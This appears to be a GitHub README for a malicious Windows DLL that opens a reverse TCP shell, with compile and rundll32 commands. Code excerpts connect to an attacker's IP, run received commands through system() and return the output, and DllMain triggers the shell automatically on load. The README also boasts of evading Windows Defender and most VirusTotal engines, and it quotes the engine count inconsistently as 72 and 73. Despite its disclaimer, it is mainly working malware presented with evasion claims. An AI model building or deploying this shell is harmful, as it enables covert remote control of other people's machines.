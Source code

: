 # EvasionDLL
Malicious DLL used for establishing a Reverse TCP Shell 

## Overview
EvasionDLL is a research-focused project demonstrating how **DLL-based reverse shells** can be used to evade detection. 

---

# Detection Status  
During testing, **Windows 10 and Windows 11 did not flag this DLL as malicious**, allowing it to execute without interference. Standard Windows Defender protections were **bypassed** in a default configuration.  
 
### VirusTotal Scan Results  
Additionally, when uploaded to **VirusTotal**, the file received **only 3 detections out of 72 antivirus engines**, indicating that many security solutions failed to recognize it as a threat. 
![VirusTotal Scan](virus_total.png)

## How to Compile and Run

### **Compiling the C File to a DLL**  

To compile the provided C file (`reverse_shell.c`) into a DLL on a Linux system using **MinGW**, use the following command:  

```bash
x86_64-w64-mingw32-gcc -shared -o reverse_shell.dll reverse_shell.c -lws2_32
```

### Running the DLL on Windows

Once the DLL is compiled, you can run it on a Windows System using the following command:
```bash
rundll32.exe .\reverse_shell.dll reverse_shell
```
![Windows Execution](windows_cmd.png)

## Understanding the Code

### Winsock Initialization
```c
WSADATA wsa;
if (WSAStartup(MAKEWORD(2,2), &wsa) != 0) {
    printf("WSAStartup failed with error: %d\n", WSAGetLastError());
    return;
}
```
- Initializes **Windows Sockets API (Winsock)** to enable network communication.
- If initialization fails, the function exits.

### Socket Creation
```c
sock = socket(AF_INET, SOCK_STREAM, 0);
if (sock == INVALID_SOCKET) {
    printf("Socket creation failed with error: %d\n", WSAGetLastError());
    WSACleanup();
    return;
}
```
- Creates a **TCP socket** for communication.
- If socket creation fails, the program terminates.

### Connecting to the Remote Server
```c
server.sin_family = AF_INET;
server.sin_port = htons(PORT);
server.sin_addr.s_addr = inet_addr(IP);

if (connect(sock, (struct sockaddr*)&server, sizeof(server)) < 0) {
    printf("Connection failed with error: %d\n", WSAGetLastError());
    closesocket(sock);
    WSACleanup();
    return;
}
```
- Specifies the **attacker-controlled server IP and port**.
- Attempts to establish a **reverse shell connection**.

### Command Execution Loop
```c
bytes_received = recv(sock, buffer, sizeof(buffer), 0);
if (bytes_received == SOCKET_ERROR) {
    printf("Recv failed with error: %d\n", WSAGetLastError());
    break;
}

buffer[bytes_received] = '\0';
system(buffer);  // Execute received commands

bytes_received = send(sock, buffer, bytes_received, 0);
```
- **Receives commands** from the attacker.
- Uses `system(buffer)` to **execute received commands**.
- Sends **command output back to the attacker**.

### DLL Execution Trigger
```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        reverse_shell(); // Execute the reverse shell when the DLL is loaded
    }
    return TRUE;
}
```
- When the DLL is **loaded into a process**, it **automatically** launches the reverse shell.
- This **abuses DLL hijacking or injection** to execute malware.
---

## Why This Code is Stealthy

This **DLL-based reverse shell** is designed to be **stealthy** and **difficult to detect** by traditional security solutions. The code employs a few key techniques that contribute to its evasion capabilities:

1. **No User Interaction**: The reverse shell is executed as a DLL, which can be loaded into a process without the user's explicit action. This makes it harder to detect since it doesn't require the typical user-triggered behaviors like running an executable file. By leveraging **DLL injection**, it can remain hidden in memory and avoid common detection methods targeting executables.

2. **Minimal Behavioral Footprint**: The code establishes a **TCP connection** to a remote server and executes system commands through the **`system()`** function. These actions are difficult to flag because the reverse shell itself doesn't exhibit any **suspicious file activity** or aggressive system changes. It only listens for commands and responds, mimicking legitimate network traffic.

3. **Bypassing Signature-Based Detection**: Many traditional **antivirus programs** rely on signature-based detection to flag known threats. However, this reverse shell is **custom-crafted** and doesn’t exhibit easily recognizable patterns that many security tools look for. Since the code is **not widely known**, signature-based antivirus engines have a harder time identifying it as malicious.

4. **Low Detection Rate on VirusTotal**: When uploaded to **VirusTotal**, this DLL was flagged by only **3 out of 73 antivirus engines**. This low detection rate is partly due to the **unique nature** of the code and its use of common system functions (like `system()`) that are often considered benign. Security solutions relying on heuristics or reputation-based detection may fail to flag it, especially when executed in controlled environments that don't exhibit obvious signs of exploitation.

These factors make this reverse shell **highly effective at evading detection** in environments where traditional security tools are used, highlighting the need for **advanced behavioral analysis** and **network monitoring** to detect malicious activity in real-time.

---

## Further Reading
- [MITRE ATT&CK: Execution Techniques](https://attack.mitre.org/techniques/T1059/)
- [Microsoft Security Guidance](https://www.microsoft.com/security/blog/)
- [DLL Injection Explained](https://attack.mitre.org/techniques/T1055/001/)

---


**Disclaimer:** This repository is for **educational and research purposes only**. 
